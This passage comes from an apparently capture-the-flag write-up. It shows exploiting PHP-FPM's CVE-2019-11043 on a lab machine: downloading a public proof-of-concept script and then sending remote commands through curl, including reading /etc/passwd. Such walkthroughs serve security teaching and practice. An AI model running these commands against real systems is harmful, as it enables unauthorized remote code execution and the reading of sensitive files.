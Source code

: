 To get the next attack vector I had to spend some time enumerating, and as the only available thing I have in the container is the web service, I analyze its headers and find a very important information leak, the website is implementing the module **PHP-FPM** and if I search for some exploit with `searchsploit` I find some. I analyze the first script and I find the **[CVE-2019-11043](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2019-11043){:target="_blank"}** so I search the internet for some exploit that can help me, I find **[PoC CVE-2019-11043](https://github.com/theMiddleBlue/CVE-2019-11043){:target="_blank"}**, so I download it and follow the instructions for use, it tells me that the site is vulnerable and I can execute commands remotely on the machine from the browser, even from my terminal, where I can filter the response.

> **PHP-FPM (FastCGI Process Manager)** is an alternative to FastCGI implementation of PHP with some additional features useful for sites with high traffic. It is the preferred method of processing PHP pages with NGINX and is faster than traditional CGI based methods such as SUPHP or mod_php for running a PHP script.

```bash
curl -s -X GET http://localhost -I
searchsploit PHP-FPM
searchsploit -x php/webapps/47553.md

wget https://raw.githubusercontent.com/theMiddleBlue/CVE-2019-11043/master/exploit.py
python3 exploit.py --url http://localhost/index.php --verbose

curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/bin/ls -l"
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/bin/cat /etc/passwd" | awk "/' - /,/: cannot open/"
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/bin/cat /etc/passwd" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v 'cannot open'
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_75.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_76.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_77.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_78.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_79.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_80.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_81.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
